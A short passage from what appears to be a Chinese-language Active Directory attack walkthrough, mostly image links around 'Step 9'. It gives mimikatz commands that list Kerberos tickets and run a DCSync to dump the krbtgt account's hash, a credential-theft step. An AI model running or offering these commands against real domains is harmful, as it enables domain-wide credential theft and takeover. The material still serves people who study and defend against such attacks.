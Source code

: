 [![](assets/1699407498-4dcc880d141be2b7df80227c88ad4fa4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144627-35bdf800-7c70-1.png)  
Step 9：之后可以利用mimikatz，进行导出hash

```plain
KERBEROS::List 
lsadump::dcsync /user:krbtgt
```

[![](assets/1699407498-71ed19a7f5d346953dbd71e812ce4d01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144647-41ab8a2e-7c70-1.png)  